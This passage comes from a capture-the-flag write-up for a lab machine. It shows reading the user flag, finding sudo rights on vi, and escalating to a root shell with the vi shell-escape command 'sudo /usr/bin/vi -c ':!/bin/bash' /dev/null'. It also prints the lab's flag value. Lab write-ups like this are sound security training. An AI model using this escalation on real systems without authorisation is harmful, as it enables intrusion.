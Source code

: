 We can read `user.txt` now:

```
charlie@chocolate-factory:/home/charlie$ cat user.txt
flag{cd5509042371b34e4826e4838b522d2e}
```

We can see this if we use `sudo -l`:

![Pasted image 20250408133050.png](../../IMAGES/Pasted%20image%2020250408133050.png)

We got sudo permissions at `/usr/bin/vi`, let's check gtfobins:

![Pasted image 20250408133125.png](../../IMAGES/Pasted%20image%2020250408133125.png)

So, we can simply do this:

```
sudo /usr/bin/vi -c ':!/bin/bash' /dev/null
```

![Pasted image 20250408133155.png](../../IMAGES/Pasted%20image%2020250408133155.png)

There we go, we got root access, let's read `root.txt`:

![Pasted image 20250408133322.png](../../IMAGES/Pasted%20image%2020250408133322.png)

There's no `root.txt`, weird, let's check the contents of the root directory:

![Pasted image 20250408133343.png](../../IMAGES/Pasted%20image%2020250408133343.png)
